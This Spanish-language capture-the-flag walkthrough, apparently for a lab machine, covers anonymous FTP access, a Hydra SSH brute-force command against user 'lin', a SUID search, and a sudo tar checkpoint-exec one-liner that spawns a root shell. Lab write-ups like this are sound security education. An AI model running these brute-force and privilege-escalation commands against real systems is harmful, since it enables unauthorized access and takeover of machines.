#### nmap

Dentro del escaneo, encontramos el puerto 21 FTP abierto, lo que parece interesante.




---


En los otros puertos no encontramos nada. Accedamos a través de FTP.

¡Oh, muy interesante! Descarguemos esos archivos y veamos qué encontramos




---


#### archivos

Usaremos cat en los archivos para ver lo que contienen y potencialmente, encontrar credenciales

encontramos un posible usuario llamado lin 



---


#### hydra

Usaremos Hydra para un ataque de fuerza bruta, y aquí está el comando:

```
hydra 10.10.41.104 ssh -s 22 -l lin -P locks.txt -f -vV

```




---


#### Credenciales

Obtuvimos las credenciales. Ahora podemos conectarnos a través de SSH



---

#### ssh

Muy bien, ahora que estamos conectados a través de SSH, es hora de encontrar las banderas de usuario y root.


---


#### root user

Obtuvimos la bandera de usuario. Ahora, procedamos a encontrar la bandera raíz.



---

#### SUID

Usamos este comando para revisar los permisos de SUID.

```
find / -perm -u=s -type f 2>/dev/null

```


---


#### ROOT SUID

Usamos sudo -l para ver los permisos que tiene root. Después de examinarlos, intentemos abusar de los permisos SUID.




---


#### abuso de SUID

Este es el comando que usaremos para abusar de los permisos de SUID y escalar privilegios:

```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

```



